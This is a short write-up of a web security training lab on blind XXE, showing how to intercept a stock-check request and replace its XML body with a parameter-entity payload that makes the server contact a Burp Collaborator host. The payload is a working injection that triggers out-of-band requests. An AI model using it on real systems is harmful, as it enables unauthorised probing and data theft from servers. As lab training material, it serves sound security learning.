





# Lab: Blind XXE with out-of-band interaction via XML parameter entities

> Lab Objective: use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

- Check Stock for any product, then inspect the Request.

- You'll notice that the POST body is sent in an XML format.
  

- When trying to trigger an OUt-of-Band Interaction, you'll notice that XML External Entities are blocked.
  

- But when using XML Parameter Entities, the interaction succeeded.
  
  

- Intercept a Stock Check request and replace the POST Body with this payload, then forward the request.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
    <!ENTITY % xxe SYSTEM "http://jtg3atru2fl3h3fm8kn43369n0tshi57.oastify.com">
    %xxe;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- The Lab is solved successfully.
  

---
